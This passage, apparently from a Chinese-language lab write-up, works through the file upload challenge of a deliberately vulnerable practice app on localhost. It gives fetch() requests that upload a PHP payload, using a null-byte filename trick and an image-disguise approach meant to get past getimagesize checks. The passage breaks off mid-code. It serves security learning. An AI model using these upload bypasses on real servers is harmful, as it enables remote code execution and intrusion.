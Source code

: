 ```js
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"3.php%00.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

观察响应发现不成功。直接放弃转义的想法，重新审阅下代码，没想出怎么直接 bypass 了。不过考虑是可以利用 apache 或者 nginx 的文件名解析漏洞，但我这个容器用了新版 apache 所以大概是不可行的=。=

另一种解法是利用文件包含漏洞，这个比较容易，改一下上面的 payload 把文件名改成 `3.jpg`。

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"3.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

结果还是不行，重新审阅代码，注意到一个新出现的函数 `getimagesize`，查询文档得知是获取图片大小的函数，可能会读取文件内容=，=而我的图片不是合法的图片所以就寄了。于是再改一改，直接这次把 payload 附加在正常图片后。不过这次选择的是 `jpg` 后缀名和 `svg` 文件内容（防止jpg图片的二进制数据把php解释器搞挂了）。payload 改成如下。

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
```